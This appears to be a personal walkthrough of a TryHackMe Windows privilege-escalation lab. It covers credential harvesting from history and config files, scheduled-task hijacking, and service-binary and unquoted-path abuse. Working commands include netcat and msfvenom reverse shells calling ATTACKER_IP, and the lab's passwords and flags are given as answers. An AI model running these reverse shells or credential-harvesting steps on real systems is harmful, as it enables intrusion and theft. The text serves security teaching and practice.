# Try Hack Me: Windows Privilege Escalation Complete Write-up
I'm writing my own write-up on the lab named [Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20) from [tryhackme](https://tryhackme.com) which is pretty tough to solve and fun to learn. Let's start! 


## Task 1: Introduction
During a penetration test, you will often have access to some Windows hosts with an unprivileged user. Unprivileged users will hold limited access, including their files and folders only, and have no means to perform administrative tasks on the host, preventing you from having complete control over your target.

This room covers fundamental techniques that attackers can use to elevate privileges in a Windows environment, allowing you to use any initial unprivileged foothold on a host to escalate to an administrator account, where possible.

If you want to brush up on your skills first, you can have a look through the [Windows Fundamentals Module](https://tryhackme.com/module/windows-fundamentals) or the [Hacking Windows Module](https://tryhackme.com/module/hacking-windows-1).

### Q: Click and continue learning!
#### Answer: No answer needed

## Task 2: Windows Privilege Escalation
Privilege escalation involves leveraging existing access to a system to gain higher privileges, often aiming for administrative control. This can be done by exploiting weaknesses such as misconfigurations, excessive privileges, vulnerable software, or missing security patches.

Windows users are categorized as:
- Administrators: Have full system control.
- Standard Users: Have limited access and cannot make major changes.

Additionally, special built-in accounts exist:
- SYSTEM: Higher privileges than administrators.
- Local Service: Runs services with minimal privileges.
- Network Service: Runs services using network authentication.

### Q.1: Users that can change system configurations are part of which group?
#### Answer: Administrators
### Q.2: The SYSTEM account has more privileges than the Administrator user (aye/nay)
#### Answer: aye

## Task 3: Harvesting Passwords from Usual Spots
1. Unattended Windows Installations
  Administrators often leave credentials in configuration files used for automated installations:
  - C:\Unattend.xml
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\system32\sysprep.inf
2. PowerShell History
  PowerShell logs executed commands, including those containing passwords. Retrieve them via:
  ```type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```
3. Saved Windows Credentials
   Windows allows users to store credentials, which can be listed with: ```cmdkey /list```
   Use stored credentials with: ```runas /savecred /user:admin cmd.exe```
4. IIS Configuration Files
  Web server configurations may contain stored passwords in web.config:
    - C:\inetpub\wwwroot\web.config
    - C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
  Search for database credentials: ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString```
5. PuTTY Stored Credentials
  PuTTY stores proxy credentials in the registry. Retrieve them with: ```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
### Q.1: A password for the julia.jones user has been left on the Powershell history. What is the password?

To read the Powershell history enter the following command: ```type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt```


There on line 6 we find her password.
#### Answer: ZuperCkretPa5z

### Q.2: A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?
According to the task, there are two possible locations where we can find these web.config files:
- C:\inetpub\wwwroot\web.config
- C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
The first one does not exist on the system, but if we run the command with the second location we find a connectionString:
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

In the connectionString we find this including the password:
**add connectionString="Server=thm-db.local;Database=thm-sekure;User ID=db_admin;Password=098n0x35skjD3" name="THM-DB"**
#### Answer: 098n0x35skjD3

### Q.3: There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.
The instructions tell use exactly what to do. Start with cmdkey to see for which users we have saved credentials:```cmdkey /list```


Sure enough, we have a saved credential for mike. Now run the following command to run cmd with his credentials: 
```runas /savecred /user:mike.katz cmd.exe```
It will open **cmd.exe**. In cmd, search for a file named **flag.txt** like this: ```dir C:\flag.txt /s /p``` 

Change to that directory with: ```cd C:\Users\mike.katz\Desktop```, then list files in that directory: ```dir``` and read the text file following command: ```type flag.txt```


#### Answer: THM{WHAT_IS_MY_PASSWORD}

### Q.4: Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?
This one is also literally described in the task. Run the following command to search under the following registry key for ProxyPassword:
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


#### Answer: CoolPass2021

## Task 4: Other Quick Wins
This task is all about abusing Task Scheduler tasks that have been configured to run an executable file that we can change to run a netcat reverse shell.

Privilege escalation can be facilitated through misconfigurations, such as those found in scheduled tasks or Windows installer files. These techniques are often more relevant in Capture The Flag (CTF) events than real penetration testing engagements.
1. Scheduled Tasks:
  - Misconfigured Task: A scheduled task may run a binary you can modify. You can list tasks with schtasks /query and check the file permissions using icacls.
  - Privilege Escalation: If a scheduled task’s executable is accessible, modify it to execute a reverse shell. For example, replace the task’s binary with a command to spawn a reverse shell using nc64.exe.
  - Triggering the Task: Once the task is modified, use schtasks /run to manually execute it and get a reverse shell with the user privileges of the scheduled task.
2. AlwaysInstallElevated:
  - Windows Installer: MSI files can be set to run with elevated privileges if registry keys are configured. This allows unprivileged users to run an MSI that executes with administrator rights.
  - Registry Check: Use reg query to check if the necessary registry keys are set. If they are, generate a malicious MSI file using msfvenom and execute it with msiexec to get a reverse shell.
### Q: What is the taskusr1 flag?
Let’s start by getting info on the scheduled task called “vulntask”. run the command in powershell: ```schtasks /query /tn vulntask /fo list /v```


As discussed in the task description, we can edit the file if have the correct permissions. To check the permission, run the following command: ```icacls c:\tasks\schtask.bat```



We have correct permission. As can be seen in the result, the **BUILTIN\Users** group has full access (F) over the task's binary. This means we can modify the **.bat** file and insert any payload we like.

Now all we need to do is **echo** the nc64 command to the **schtask.bat** file to overwrite its content in **cmd**. Remember to change the ip of local machine: 

```echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat```

And setup a listener on your attacker machine: ```nc -lvnp 4444```

Finally, run the scheduled task with: ```schtasks /run /tn vulntask```



yes, we got a connection:



Now we've to find the flag:



#### Answer: THM{TASK_COMPLETED}

## Task 4: Abusing Service Misconfigurations

This part covers three different service misconfigurations, and each vulnerability has a question related to it.

Windows services are managed by the Service Control Manager (SCM), which controls service states and configurations. Each service has an associated executable and a user account it runs under. Services are configured in the Windows registry, and their executable path and associated account are specified there. Permissions for services are controlled via a Discretionary Access Control List (DACL), determining who can start, stop, or configure the service.

Insecure Permissions on Service Executables: If a service’s executable has weak permissions, attackers can replace it with malicious payloads, gaining privileges of the service’s account. An example using Splinterware System Scheduler showed how to exploit a service by overwriting its executable, causing the service to run malicious code.

Unquoted Service Paths: A vulnerability occurs when the service executable path is unquoted, allowing an attacker to insert their own executable before the intended one. If a service path has spaces but isn’t quoted, the SCM may misinterpret the command, potentially running an attacker’s executable instead. This can be exploited when services are installed in writable directories, allowing an attacker to place malicious executables in those locations.

Exploitation: In both scenarios, attackers create and place malicious executables on the target system, manipulate service configurations or permissions, and gain elevated access through service misconfigurations.

### Q.1: Get the flag on svcusr1’s desktop.
Once again, we can follow the steps from the covered theory: ```sc qc WindowsScheduler```



The binary path is mentioned. Now we check the permissions: ```icacls C:\PROGRA~2\SYSTEM~1\WService.exe```



The Everyone group has modify permissions (M) on the service’s executable. This means we can simply overwrite it with any payload of our preference, and the service will execute with privileges of the configured user account.
Now we need to fulfil the following tasks:
1. Create a reverse shell payload on the local machine: ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe```



2. Setup a Python web server at our local machine: ```python3 -m http.server```
3. Get the binary from the attacker machine into our target(thm lab): ```wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe```



4.  On the target machine, rename the original binary, move the payload to its location and give the right permissions (making sure you are using Powershell):



5. On your attacker machine, setup a reverse listener: ```nc -lvnp 4445```
6.  On the target machine, startup the task:
```
sc stop windowsscheduler
sc start windowsscheduler
```


7. Startup a listener and receiving a shell:



Now we are connected, we've to find the flag following command: `dir \flag.txt /s /p`



We found it. Now read the flag:


#### Answer: THM{AT_YOUR_SERVICE}
### Q.2: Get the flag on svcusr2's desktop.
Now it is time to abuse Unquoted Service Paths. The process is quite similar. We place a binary in a place that gets called due to a Task Scheduler task not correctly specifying its BINARY_PATH:NAME (not using double quotes), causing our payload to be called instead. Again , we need to build a payload with msfvenom, download it from our attacker machine, setup a listener, and start the scheduled task.
The problem is with the following task: `sc qc "disk sorter enterprise"`



If we check the permissions on the binary file location we can see that we have writing privileges: `icacls c:\MyPrograms`



There we can do as follows on our machine: 
```
# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev_svc2.exe

# And Setup a server
python3 -m http.server
```
Then we download the file on our target machine: `wget http://ATTACKER_IP:8000/rev-svc2.exe -O rev-svc2.exe`

Setup a listener on our attacker machine: `nc -lnvp 4445`

Move the file and give it permissions:
```
C:\Users\thm-unpriv>move C:\Users\thm-unpriv\rev_svc2.exe C:\MyPrograms\Disk.exe
        1 file(s) moved.

C:\Users\thm-unpriv>icacls C:\MyPrograms\Disk.exe /grant Everyone:F
processed file: C:\MyPrograms\Disk.exe
Successfully processed 1 files; Failed processing 0 files
```

Then restart the task: 
```
sc stop "disk sorter enterprise"
sc start "disk sorter enterprise"
```


And we got a **reverse shell**. As before, find the flag by `dir \flag.txt /s /p`. We would find the location of **flag.txt**. Then read the flag and submit.

#### Answer: THM{QUOTES_EVERYWHERE}

### Q.3: Get the flag on the Administrator’s desktop.
We know the drill by now. It is very similar with last two proccess.
1. Create a payload: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`
2. Start a on local machine server: `python3 -m http.server`
3. Then Start a listener on local machine: `nc -lvp 4447`
4. Download the file from Powershell on the target machine(teyhackme lab): `wget http://ATTACKER_IP:8000/rev_svc3.exe -o rev_svc3.exe`
5. Change the permissions: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
6. In target cmd configure the binPath by following command: `sc config THMService binPath= “C:\Users\thm-unpriv\rev-svc3.exe” obj= LocalSystem`
7. To trigger our payload, all that rests is restarting the service:
```
sc stop THMService
sc start THMService
```
You should have received a reverse shell. Then find the flag on the administrator’s desktop and read it.

#### Answer: THM{INSECURE_SVC_CONFIG}

## Task 6: Abusing dangerous privileges
1. Privileges Overview:
   - Privileges grant rights to perform system tasks like shutting down the system or bypassing access controls. Key privileges are of interest to attackers for escalating privileges.
   - The `whoami /priv` command shows the privileges of the current user.
2. SeBackup / SeRestore Privileges:
   - Description: These privileges allow bypassing DACLs to read/write any file, useful for backup operations.
   - Exploitation: Attackers can use these privileges to copy registry hives (SAM and SYSTEM) and extract password hashes. Tools like Impacket’s `secretsdump` can be used to retrieve the hashes and then perform Pass-the-Hash attacks to gain SYSTEM access.
3. SeTakeOwnership Privilege:
   - Description: Allows users to take ownership of any file or object on the system.
   - Exploitation: An attacker can use this privilege to replace system executables (like utilman.exe), giving themselves SYSTEM-level access. The process includes taking ownership of the file, granting full permissions, and replacing the executable with a payload.
4. SeImpersonate / SeAssignPrimaryToken Privileges:
   - Description: These privileges allow a process to impersonate another user, enabling it to act on their behalf.
   - Exploitation: Attackers can exploit these privileges by compromising services like IIS, which use accounts with impersonation privileges (e.g., LOCAL SERVICE, NETWORK SERVICE). Using tools like RogueWinRM, an attacker can spawn a process that impersonates a privileged user (e.g., SYSTEM) and execute commands remotely via a malicious connection.

These privileges represent common opportunities for attackers to escalate their privileges and gain more control over a compromised system.
### Q: Get the flag on the Administrator's desktop.
In this task, we can decide between three different methods: SeBackup / SeRestore, SeTakeOwnership, SeImpersonate / SeAssignPrimaryToken. I will pick the Backup route as it seems to involve of a few techniques I find great to learn.
RDP into the target machine, for example by using `Remmina` on your **AttackBox**. When logged in you can go ahead and run a command prompt **as administrator**.
You should now be able to see your privileges with the command: `whoami /priv`
